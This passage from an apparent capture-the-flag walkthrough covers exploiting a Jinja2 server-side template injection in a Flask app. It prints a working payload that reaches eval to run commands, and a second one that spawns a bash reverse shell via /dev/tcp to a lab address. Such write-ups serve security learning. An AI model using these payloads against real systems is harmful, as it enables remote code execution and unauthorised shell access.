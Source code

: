 Since the output is `/7777777` not found meaning this is a jinja2 template.
Then I tried to execute things from [payloadallthethings/TemplateInjection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) but nothing worked.

Then I came across [flask/SSTI](https://github.com/vulhub/vulhub/tree/master/flask/ssti) which had the following jinja template code

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```

Now wtih that I was able to get the RCE.

![](images/fugit3/RCE.png)

__Focus on the highlighted part__

With this I was able to execute lot of commands but I was not able to get reverse shell. Then [@theart42](https://twitter.com/theart42) shared the command that would give reverse shell.


{{''.__class__.__mro__[1].__subclasses__()[373]("bash -c 'bash -i >& /dev/tcp/192.168.56.1/4444 0>&1'",shell=True,stdout=-1).communicate()[0].strip()}}


That `[373]` is the index of `Subprocess.popen`. With this command I was able to get reverse shell.
